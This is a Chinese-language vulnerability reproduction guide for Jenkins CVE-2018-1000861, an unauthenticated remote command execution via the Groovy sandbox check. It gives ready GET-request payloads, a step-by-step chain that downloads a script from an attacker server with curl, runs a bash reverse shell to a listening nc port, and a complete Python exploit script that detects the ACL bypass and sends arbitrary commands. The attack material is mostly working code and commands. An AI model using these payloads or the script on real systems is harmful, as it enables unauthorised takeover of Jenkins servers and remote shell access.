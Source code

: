 （CVE-2018-1000861）Jenkins 远程命令执行漏洞
============================================

一、漏洞简介
------------

Jenkins使用Stapler框架开发，其允许用户通过URL
PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。

二、漏洞影响
------------

Jenkins Version \<= 2.56

Jenkins LTS Version \<= 2.46.1

三、复现过程
------------

#### 漏洞复现:

##### 1.此漏洞是没有回显的,所以我们这里直接反弹shell:

此漏洞的POC(直接GET请求即可):

    GET /securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22touch%20/tmp/CVE-2018-1000861_is_success%22.execute()}}

##### 2.我们这里采取下载文件的方法来反弹shell

\(1\) 先在我们的服务器上防止一个文本,内容为:

    bash -i >& /dev/tcp/172.26.1.156/9999 0>&1

\(2\) 然后我们替换POC中执行命令的部分为下载文件的命令:

    curl -o /tmp/1.sh http://172.26.1.156:8080/1.txt

替换后的POC:

    http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22curl+-o+/tmp/1.sh+http://172.26.1.156:8080/1.txt%22.execute()}}

\(3\) 给予下载的脚本执行权限:

    chmod 777 /tmp/1.sh

替换后的POC:

    http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22chmod+777+/tmp/1.sh%22.execute()}}

\(4\) 然后在我们接收shell的机器上监听之前写的端口:

    nc -lvvp 9999

\(5\) 直接bash执行我们下载的脚本

    bash /tmp/1.sh

替换后的POC:

    http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22bash+/tmp/1.sh%22.execute()}}

\(6\) 回到我们监听端口的机器:

![U1fa800f6a04448f38d05166dcce9d04cJ.jpg](resource/(CVE-2018-1000861)Jenkins远程命令执行漏洞/media/rId27.jpg)

可以看到已经成功获取到了shell!

### poc

**useage**

    $ curl -s -I http://jenkins/| grep X-Jenkins
    X-Jenkins: 2.137
    X-Jenkins-Session: 20f72c2e
    X-Jenkins-CLI-Port: 50000
    X-Jenkins-CLI2-Port: 50000

    $ python exp.py http://jenkins/ 'curl orange.tw'
    [*] ANONYMOUS_READ disable!
    [*] Bypass with CVE-2018-1000861!
    [*] Exploit success!(it should be :P)

![Uadc7abd83e45466dbed2f51492676c13j.jpg](resource/(CVE-2018-1000861)Jenkins远程命令执行漏洞/media/rId29.jpg)

    #!/usr/bin/python
    # coding: UTF-8
    # author: Orange Tsai(@orange_8361)
    # 

    import sys
    import requests
    from enum import Enum

    # remove bad SSL warnings
    try:
        requests.packages.urllib3.disable_warnings()
    except:
        pass


    endpoint = 'descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript'

    class mode(Enum):
        ACL_PATCHED = 0
        NOT_JENKINS = 1
        READ_ENABLE = 2
        READ_BYPASS = 3
        ENTRY_NOTFOUND = 999

    def usage():
        print '''
      Usage:
        python exp.py <url> <cmd>
        '''

    def _log(msg, fail=False):
        nb = '[*]'
        if fail:
            nb = '[-]'
        print '%s %s' % (nb, msg)

    def _get(url, params=None):
        r = requests.get(url, verify=False, params=params)
        return r.status_code, r.content

    def _add_bypass(url):
        return url + 'securityRealm/user/admin/'

    def check(url):
        flag, accessible = mode.ACL_PATCHED, False

        # check ANONYMOUS_READ
        status, content = _get(url)
        if status == 200 and 'adjuncts' in content:
            flag, accessible = mode.READ_ENABLE, True
            _log('ANONYMOUS_READ enable!')
        elif status == 403:
            _log('ANONYMOUS_READ disable!')

            # check ACL bypass, CVE-2018-1000861
            status, content = _get(_add_bypass(url))
            if status == 200 and 'adjuncts' in content:
                flag, accessible = mode.READ_BYPASS, True
        else:
            flag = mode.NOT_JENKINS

        # check entry point, CVE-2019-1003005
        if accessible:
            if flag is mode.READ_BYPASS:
                url = _add_bypass(url)
            status, content = _get(url + endpoint)

            if status == 404:
                flag = mode.ENTRY_NOTFOUND

        return flag

    def exploit(url, cmd):
        payload = 'public class x{public x(){new String("%s".decodeHex()).execute()}}' % cmd.encode('hex')
        params = {
            'sandbox': True, 
            'value': payload
        }

        status, content = _get(url + endpoint, params)
        if status == 200:
            _log('Exploit success!(it should be :P)')
        elif status == 405:
            _log('It seems Jenkins has patched the RCE gadget :(')
        else:
            _log('Exploit fail with HTTP status [%d]' % status, fail=True)
            if 'stack trace' in content:
                for _ in content.splitlines():
                    if _.startswith('Caused:'):
                        _log(_, fail=True)

    if __name__ == '__main__':
        if len(sys.argv) != 3:
            usage()
            exit()

        url = sys.argv[1].rstrip('/') + '/'
        cmd = sys.argv[2]

        flag = check(url)
        if flag is mode.ACL_PATCHED:
            _log('It seems Jenkins is up-to-date(>2.137) :(', fail=True)
        elif flag is mode.NOT_JENKINS:
            _log('Is this Jenkins?', fail=True)
        elif flag is mode.READ_ENABLE:
            exploit(url, cmd)
        elif flag is mode.READ_BYPASS:
            _log('Bypass with CVE-2018-1000861!')
            exploit(_add_bypass(url), cmd)
        else:
            _log('The `checkScript` is not found, please try other entries(see refs)', fail=True)
